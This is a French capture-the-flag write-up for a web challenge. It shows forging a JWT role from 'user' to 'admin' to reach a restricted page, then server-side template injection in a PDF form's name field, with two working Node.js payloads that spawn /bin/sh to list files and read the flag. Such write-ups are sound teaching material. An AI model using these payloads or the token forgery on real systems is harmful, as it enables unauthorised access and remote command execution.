 ![Desc](images/desc.png)

# Writeup

On part d’une page web sur laquelle on peut remplir une sorte de formulaire, après quelques essais et manipulations avec BurpSuite on n’en extrait rien d’utile.

Une page de connexion est disponible (`/login`), ainsi qu'une page pour créer un compte (`/register`), on peut donc se créer un compte avec les credentials `test:test` par exemple :

![Connection](images/connect.png)

Nous ne sommes pas connecté en tant que `test` mais en tant que `user`, en regardant nos cookies de sessions on se rend compte qu'un token JWT nous est attribué lors de notre connexion avec le rôle `user` :

![Token1](images/token1.png)

En étant connecté et en cliquant dans la barre en haut à gauche sur "Justificatif" (`/name_form`) :

![Refuse](images/refus.png)

On obtient un message :

```
Accès refusé

Cet utilisateur n'a pas les accès nécessaires.
```

Un peu plus haut nous avions remarqué que notre rôle dans le token était `"user"`, on le change en mettant `"admin"` à la place avec https://token.dev/ et on le modifie également dans notre navigateur :  

![Token2](images/token2.png)

![Newform](images/newform.png)

On obtient accès à la page Justificatif (`JWT "alg: none"`):

![Just](images/just.png)

![pdf1](images/pdf.png)

Sur cette page on fournit deux champs libres : `Nom` et `Prénom`.

Quand on soumet ce formulaire, le serveur :

- Récupère ces valeurs dans le body de notre requête
- Les injecte dans un template pour générer un Justificatif de présence au format PDF, comportant :

```
Nom : <ton nom>
Prénom : <ton prénom>
Date : <date du jour>
```
- Et enfin envoie ce PDF 

Nous pouvons rapidement trouver la faille, une Server-side template injection, en effet le champ `Nom` est vulnérable, quand on rentre la valeur `{{7*7}}` le serveur nous renvoit `49` :


![vuln](images/vuln.png)


En testant différents types d’injections avec persévérance, on peut constater que le template engine n’interprète que du JavaScript et que c'est sûrement un moteur de template Node.js.

En faisant quelques recherches du type "SSTI Javascript" on trouve le bon [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/JavaScript.md#lodash---command-execution) :

```javascript
{{x=Object}}{{w=a=new x}}{{w.type="pipe"}}{{w.readable=1}}{{w.writable=1}}{{a.file="/bin/sh"}}{{a.args=["/bin/sh","-c","id;ls"]}}{{a.stdio=[w,w]}}{{process.binding("spawn_sync").spawn(a).output}}
```

![vuln](images/payload.png)

Il nous permet de lister les fichiers, il ne reste plus qu'à le modifier pour récupérer le flag :

```javascript
{{x=Object}}{{w=a=new x}}{{w.type="pipe"}}{{w.readable=1}}{{w.writable=1}}{{a.file="/bin/sh"}}{{a.args=["/bin/sh","-c","cat flag.txt"]}}{{a.stdio=[w,w]}}{{process.binding("spawn_sync").spawn(a).output}}
```
![vuln](images/flag.png)

**Flag**

`SHLK{JwT_bYpaS5_2_RCe}`
